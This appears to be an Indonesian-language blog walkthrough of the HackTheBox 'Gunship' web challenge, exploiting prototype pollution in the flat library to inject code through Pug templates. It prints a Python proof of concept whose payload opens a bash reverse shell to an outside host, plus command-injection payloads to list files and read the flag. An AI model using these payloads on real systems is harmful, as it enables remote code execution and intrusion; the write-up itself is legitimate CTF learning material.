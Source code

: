 ```yaml
---
title: "HackTheBox - Gunship"
date: 2023-12-29 07:18:00 +0700
categories: [HackTheBox, Challenges]
tags: [very easy, web]
---
```


**Gunship** ialah salah satu tantangan kategori web dari situs HackTheBox, Gunship ini sebenarnya tantangan lama tapi karena saya belum coba, jadi saya kerjakan aja. Ini perjalanan/panduan saya
Oh iya, disini kita akan mempelajari tentang exploit, burpsuite dll.

## Introduction

- Munculkan mesin, hahaha....
- Dan download file-nya

## Enumeration

Pertama-tama kita buka webnya dulu, dan analisis. Lihat dibagian bawah web, kita bisa inputkan sesuatu disitu. **"Who's your favourite artist?"**. Untuk menjawabnya, baca dulu bacaan dibagian atas. Jika kita input asal-asalan akan muncul teks **"Please provide us with the full name of an existing member."**.

Setelah baca yang diatas, terdapat dua nama, yaitu **Dan Haigh and Alex Westaway**. Nah, coba salah satu. Dan hasilnya **Hello guest, thank you for letting us know!**.

Hummm. Coba kita analisis file yang sudah didownload tadi. Nah setelah di ekstrak didalamnya ada banyak file, buka yang folder challenge. Di dalam direktori challenge kan ada flag, gak mungkin lah yaa menemukan flag semudah itu, coba baca flagnya **HTB{f4k3_fl4g_f0r_t3st1ng}**, sudah saya bilang `:)` bruhhhhh, coba analisis yang lain dahh. Nah ada yang menarik di bagian `package.json`.

```
{
	"name": "gunship",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"scripts": {
		"start": "node index.js",
		"dev": "nodemon .",
		"test": "echo \"Error: no test specified\" && exit 1"
	},
	"keywords": [],
	"authors": [
		"makelaris",
		"makelarisjr"
	],
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}
```
{: file='package.json'}

Dibagian depedencies ada flat dan pug, hummm. Coba cari digoogle exploitnya, setelah saya cari kalau kerentanan dari flat itu kita bisa `prototype pollution` dan pug itu kita bisa `mengeksekusi kode`. Coba telusuri dan analisis file lainnya, masuk direktori routes baca index.js

```
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```
{: file='routes/index.js'}

Humm, lihat dibagian router post, ada `unflatten` dan `pug.compile`. Coba cari digoogle lagi `:)`, untuk `pug.compile` tidak ada yang menarik, tapi untuk yang `unflatten` ini menarik, coba search `unflatten exploit` buka yang [hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution), nah disitu ada bagian pug, analisis itu. Kita bisa copy dari bagian awal protoblock sampai selesai akhir protoblock.

```python
import requests

TARGET_URL = 'http://p6.is:3000'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
    }
})

# execute
requests.get(TARGET_URL)
```
```python
"__proto__.block": {
    "type": "Text", 
    "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}
```

Sekarang buka burpsuite, jalan kan yang bagian input-an tadi, masukkan ke repeater burp. Nah di dalam bagian `execSync()` kita ubah jadi `'$(ls)'`, kita akan menampilkan filenya apa aja yang ada di situ. 

![Desktop View](/assets/img/htb/include/Gunship-1.png){: .w-75}

Lihat hasilnya `/bin/sh: flagkmBDk: not found`, nah sekarang coba kita ganti `'$(cat flagkmBDk)'`

![Desktop View](/assets/img/htb/include/Gunship-2.png){: .w-75}

***/bin/sh: HTB{f4k3_fl4g_f0r_t3st1ng}***

> kenapa kok fake flag? karena saya menjalankan yang file Docker, bukan yang dari HTB nya langsung.
{: .prompt-info}